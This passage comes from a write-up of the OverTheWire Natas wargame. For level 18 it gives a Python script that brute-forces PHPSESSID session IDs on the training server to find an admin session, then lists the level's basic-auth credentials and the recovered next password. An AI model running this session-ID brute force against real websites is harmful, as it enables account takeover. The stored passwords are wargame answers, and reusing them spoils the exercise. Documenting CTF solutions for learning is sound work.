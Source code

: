     ```python
    import re
    import requests

    auth = ('natas18', 'xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP')
    cookies = { "PHPSESSID" : '0' }
    ## `data` isn't really necessary
    data = { "username" : "admin", "password": "pass" }
    url = "http://natas18.natas.labs.overthewire.org/"

    for i in range(641):
        cookies["PHPSESSID"] = str(i)
        response = requests.post(url, data=data, cookies=cookies, auth=auth)

        if not re.search("logged in as a regular user", response.text):
    	print(f"PHPSESSID: { i }")
    	print(response.text)
    	break
    		
        print(f"Checked PHPSESSID: { i }")
    ```

- The output of the above code is as follows:

    ![images/level18_code_vs_output.png](images/level18_code_vs_output.png)

- Password

    4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs

## 20 Level 19 → Level 20

- The landing page for `natas19` says the following:
